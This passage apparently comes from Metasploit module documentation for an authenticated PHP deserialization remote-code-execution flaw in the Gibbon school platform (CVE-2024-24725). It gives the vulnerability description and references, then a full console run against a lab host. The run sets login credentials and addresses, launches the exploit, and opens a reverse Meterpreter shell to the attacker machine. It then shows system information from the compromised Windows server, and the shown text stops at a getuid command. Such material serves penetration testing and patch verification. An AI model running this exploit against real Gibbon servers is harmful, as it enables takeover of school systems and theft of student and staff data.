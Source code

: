 ```msf

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                      address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  A Remote Code Execution vulnerability in Gibbon online school platform version 26.0.00 and lower
  allows remote authenticated users to conduct PHP deserialization attacks via columnOrder in a
  POST request to the endpoint `/modules/System%20Admin/import_run.php&type=externalAssessment&step=4`.
  As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
  potentially resulting in complete system compromise, data exfiltration, or unauthorized access
  to sensitive information.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-24725
  https://attackerkb.com/topics/ogKGAB44BP/cve-2024-24725
  https://packetstormsecurity.com/files/177635
  https://www.exploit-db.com/exploits/51903


View the full module info with the info -d command.
```
### Target 0 - PHP native `php/meterpreter/reverse_tcp` session
```shell
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set rport 80
rport => 80
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set ssl false
ssl => false
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set username cuckoo@clock.com
username => cuckoo@clock.com
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set password dingdong
password => dingdong
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set rhosts 192.168.201.4
rhosts => 192.168.201.4
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.4
[+] Deleted FaYSQoZdlBg.php
[*] Meterpreter session 5 opened (192.168.201.8:4444 -> 192.168.201.4:49958) at 2024-04-01 15:07:30 +0000

meterpreter > sysinfo
Computer    : WIN-BJDNH44EEDB
OS          : Windows NT WIN-BJDNH44EEDB 10.0 build 17763 (Windows Server 2016) AMD64
Meterpreter : php/windows
meterpreter > getuid
```